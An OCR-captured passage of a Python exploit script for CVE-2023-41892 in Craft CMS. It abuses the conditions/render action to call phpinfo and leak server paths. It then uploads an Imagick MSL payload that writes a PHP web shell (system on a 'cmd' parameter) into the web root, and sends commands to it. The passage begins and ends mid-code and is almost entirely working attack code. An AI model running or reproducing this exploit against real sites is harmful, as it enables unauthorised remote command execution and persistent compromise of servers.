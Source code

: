```
    files = {
        "image1": ("pwn1.msl", """<?xml version="1.0" encoding="UTF-8"?>
        <image>
        <read filename="caption:&lt;?php @system(@$_REQUEST['cmd']); ?&gt;"/>
        <write filename="info:DOCUMENTROOT/cpresources/shell.php" />
        </image>""".replace("DOCUMENTROOT", documentRoot), "text/plain")
    }

    response = requests.post(url, headers=headers, data=data, files=files)

def getTmpUploadDirAndDocumentRoot():
    data = {
        "action": "conditions/render",
        "configObject[class]": "craft\elements\conditions\ElementCondition",
        "config": r'{"name":"configObject","as ":{"class":"\\GuzzleHttp\\Psr7\\FnStream", "__construct()":{"methods":{"close":"phpinfo"}}}}'
    }

    response = requests.post(url, headers=headers, data=data, proxies={"http": "http://127.0.0.1:8080"})

    pattern1 = r'<tr><td class="e">upload_tmp_dir<\/td><td class="v">(.*?)<\/td><td class="v">(.*?)<\/td><\/tr>'
    pattern2 = r'<tr><td class="e">\$_SERVER\[\'DOCUMENT_ROOT\'\]<\/td><td class="v">([^<]+)<\/td><\/tr>'
   
    match1 = re.search(pattern1, response.text, re.DOTALL)
    match2 = re.search(pattern2, response.text, re.DOTALL)
    return match1.group(1), match2.group(1)

def trigerImagick(tmpDir):
    
    data = {
        "action": "conditions/render",
        "configObject[class]": "craft\elements\conditions\ElementCondition",
        "config": '{"name":"configObject","as ":{"class":"Imagick", "__construct()":{"files":"vid:msl:' + tmpDir + r'/php*"}}}'
    }
    response = requests.post(url, headers=headers, data=data)    

def shell(cmd):
    response = requests.get(url + "/cpresources/shell.php", params={"cmd": cmd})
    match = re.search(r'caption:(.*?)CAPTION', response.text, re.DOTALL)

    if match:
        extracted_text = match.group(1).strip()
        print(extracted_text)
    else:
        return None
    return extracted_text

if __name__ == "__main__":
    if(len(sys.argv) != 2):
        print("Usage: python CVE-2023-41892.py <url>")
        exit()
    else:
        url = sys.argv[1]
        print("[-] Get temporary folder and document root ...")
        upload_tmp_dir, documentRoot = getTmpUploadDirAndDocumentRoot()
        tmpDir = "/tmp" if "no value" in upload_tmp_dir else upload_tmp_dir
        print("[-] Write payload to temporary file ...")
        try:
            writePayloadToTempFile(documentRoot)
```